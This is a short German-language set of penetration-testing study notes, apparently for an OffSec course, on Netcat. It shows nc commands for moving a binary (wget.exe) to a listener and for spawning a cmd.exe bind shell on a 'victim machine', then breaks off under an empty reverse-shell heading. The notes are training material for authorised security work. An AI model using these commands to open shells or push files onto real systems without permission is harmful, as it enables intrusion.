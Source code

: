 # OffSec -  Netcat

## Datenübertragung
Mit #Netcat kann man auch Daten #übertragen. 
Hierzu ist wie folgt vorzugehen.

Auf dem Client wird eim TCP-Listening Port geöffnet und der Output in eine "incoming.exe" geschrieben

`nc -nlvp 4444 > incoming.exe`

Auf dem Host wird nun der folgende Befehl eingesetzt:

`nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`

## Netcat Bind Shell

Auf dem Opferrechner kann via #Netcat eine #BindShell gespawnt werden.

`nc -nlvp 4444 -e cmd.exe`

Mit der -e Option führt der Rechner nun das nachstehende Kommando aus, sobald sich jemand mit dem Listener verbindet.

Wenn man sich nun mittels dem Befehl:
`nc -nv 10.11.0.22 4444` 
Auf den Rechner schaltet, erhält man eine #BindShell.

## Netcat Reverseshell


